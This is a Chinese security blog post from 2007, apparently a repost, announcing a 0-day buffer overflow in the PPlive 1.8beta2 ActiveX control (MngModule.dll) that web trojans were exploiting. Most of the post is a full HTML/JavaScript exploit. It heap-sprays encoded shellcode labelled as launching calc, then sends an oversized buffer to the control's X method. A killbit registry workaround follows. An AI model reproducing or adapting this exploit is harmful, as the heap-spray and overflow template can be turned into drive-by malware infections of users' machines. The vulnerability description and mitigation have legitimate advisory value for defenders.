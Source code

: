 ```yaml
---
title: PPlive 0Day 网马曝光！
description: 根据近期恶意网址检测的结果，发现有一部分网马利用最新的PPlive0Day漏洞在传播，虽然目前数目还不多，但是相信很快就会成为网马的主力军，并与迅雷、百度搜霸、暴风影音、PPS等一路，加入今年应用软件网页木马的大潮中。该漏洞是由BugCenterTeam（http://www.cnbct.org/index.php)小组的Maple-x发现的，影响版本:为pplive1.8beat2，有问题的dll:MngModule.dll1.7.0.2，在该模块中，有一个vsprintf的函数，程序只分配了400h(1024个字节)的大小，中间并没有进行过长度判断，当提交超过1024个A以后就会发生溢出了。因此可以基本判断为是由于vsprintf的字符串长度过长，从而导致的溢出。由此可见，在编写程序时，做好边界检查是多么的重要！该有漏洞溢出模块的CLSID:9F0F8700-A4D8-4E24-A3E0-1CA654CB5179另附上Exploit：
date: 2007-11-14 07:15:23
category: 技术文章
tags: ['0day', 'exploit', '漏洞信息']
post_id: 247
alias: PPlive1.8beta2-0Day-exploit
ViewNums: 4670
---
```


根据近期恶意网址检测的结果，发现有一部分网马利用最新的PPlive 0Day漏洞在传播，虽然目前数目还不多，但是相信很快就会成为网马的主力军，并与迅雷、百度搜霸、暴风影音、PPS等一路，加入今年应用软件网页木马的大潮中。

该漏洞是由Bug Center Team（[http://www.cnbct.org/index.php](http://www.cnbct.org/index.php "http://www.cnbct.org/index.php")) 小组的Maple-x发现的，影响版本:
为 pplive 1.8beat2 ，有问题的dll: MngModule.dll 1.7.0.2 ，在该模块中，有一个vsprintf的函数，程序只分配了400h(1024个字节)的大小，中间并没有进行过长度判断，当提交超过1024个A以后就会发生溢出了。因此可以基本判断为是由于vsprintf的字符串长度过长，从而导致的溢出。由此可见，在编写程序时，做好边界检查是多么的重要！

该有漏洞溢出模块的CLSID:9F0F8700-A4D8-4E24-A3E0-1CA654CB5179

另附上Exploit：
```html
<html>
<body>
<object classid='clsid:9F0F8700-A4D8-4E24-A3E0-1CA654CB5179' id='target'></object>
<script>
var heapSprayToAddress = 0x0a0a0a0a;

var shellcode = unescape(
"%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090" +
// exec calc
"%u03eb%ueb59%ue805%ufff8%uffff%u494f%u4949%u4949%u5149%u565a%u5854%u3336
%u5630%u3458%u3041%u3642%u4848%u4230%u3033%u4342%u5856%u4232%u4244%u3448
%u3241%u4441%u4130%u5444%u4442%u4251%u4130%u4144%u5856%u5a34%u4238%u4a44
%u4d4f%u4f4e%u4e4a%u5446%u5042%u5042%u3042%u584b%u5445%u334e%u384b%u574e
%u3045%u374a%u3041%u4e4f%u584b%u444f%u414a%u384b%u354f%u4242%u3041%u4e4b
%u3449%u584b%u3346%u584b%u3041%u4e50%u3341%u4c42%u3949%u4a4e%u5846%u4c42
%u3746%u3047%u4c41%u4c4c%u504d%u5041%u4c44%u4e4b%u4f46%u534b%u5546%u3246
%u3046%u4745%u4e45%u484b%u354f%u3246%u5041%u4e4b%u3648%u584b%u504e%u544b
%u584b%u354f%u314e%u5041%u4e4b%u384b%u414e%u384b%u3041%u4e4b%u3849%u454e
%u5246%u5046%u4c43%u5341%u4c42%u4646%u484b%u4442%u4342%u3845%u4c42%u374a
%u504e%u484b%u4442%u504e%u484b%u5742%u514e%u4a4d%u484b%u464a%u304a%u4e4b
%u3049%u584b%u5842%u4b42%u3042%u5042%u3042%u484b%u464a%u434e%u554f%u4341
%u4f48%u5642%u5548%u5849%u4f4a%u3843%u4c42%u574b%u5542%u464a%u4e4f%u4c50
%u4e42%u4642%u364a%u494a%u4f50%u484c%u3050%u3547%u4f4f%u4e47%u4643%u5641
%u464e%u5643%u4250%u5645%u374a%u3645%u3042%uff5a");

var heapBlockSize = 0x100000;
var payLoadSize = shellcode.length * 2;
var spraySlideSize = heapBlockSize - (payLoadSize+0x38);
var spraySlide = unescape("%u9090%u9090");
spraySlide = getSpraySlide(spraySlide,spraySlideSize);
heapBlocks = (heapSprayToAddress - 0x100000)/heapBlockSize;
memory = new Array();

for (i=0;i<heapBlocks;i++)
{
memory[i] = spraySlide + shellcode;
}
function getSpraySlide(spraySlide, spraySlideSize)
{
while (spraySlide.length*2<spraySlideSize)
{
spraySlide += spraySlide;
}
spraySlide = spraySlide.substring(0,spraySlideSize/2);
return spraySlide;
}
var buffer = 'x0a';

while (buffer.length < 1044)
buffer += 'x0ax0ax0ax0a';

target.X(true, buffer, 1);
</script>
</body>
</html>
```
目前的临时解决办法也就是在注册表中设置killbit 。

Windows Registry Editor Version 5.00
```
[HKEY_LOCAL_MACHINESOFTWAREMicrosoftInternet ExplorerActiveX Compatibility{9F0F8700-A4D8-4E24-A3E0-1CA654CB5179}]
"Compatibility Flags"=dword:00000400
```
参考连接：《初探ActiveX类型溢出---PPlive 0Day》

[http://www.cnbct.org/index.php?action=article_view&aid=21](http://www.cnbct.org/index.php?action=article_view&aid=21 "http://www.cnbct.org/index.php?action=article_view&aid=21")

应用软件们注意了，下一个就是你！

from：网络巡警的博客


